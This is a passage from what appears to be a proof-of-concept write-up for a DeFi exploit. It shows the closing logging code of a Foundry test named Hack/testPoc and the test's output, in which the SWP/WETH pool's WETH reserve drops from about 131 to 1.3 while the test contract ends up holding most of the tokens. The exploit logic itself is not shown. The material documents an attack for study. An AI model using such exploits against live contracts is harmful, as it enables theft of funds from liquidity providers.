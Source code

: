 ```solidity
        emit log_named_decimal_uint(
            "[after] token1(WETH) getReserves in pool",
            token1,
            18
        );

        emit log_named_decimal_uint(
            "Now, i have SWP: ",
            SWP_Token.balanceOf(address(this)),
            18
        );
        emit log_named_decimal_uint(
            "Now, i have WETH: ",
            WETH.balanceOf(address(this)),
            18
        );
    }
}


```

输出:

```
Running 1 test for test/hack.t.sol:Hack
[PASS] testPoc() (gas: 131472)
Logs:
  [before] token0(SWP_Token) form getReserves in pool: 147580.970131255838890994
  [before] token1(WETH) getReserves in pool: 131.642780241915502488
  [after] token0(SWP_Token) form getReserves in pool: 1475.809701312558388910
  [after] token1(WETH) getReserves in pool: 131.642780241915502498
  [after] token0(SWP_Token) form getReserves in pool: 1475.809701312558388920
  [after] token1(WETH) getReserves in pool: 1.316427802419155025
  Now, i have SWP: : 146105.160429943280502074
  Now, i have WETH: : 130.326352439496347563
```


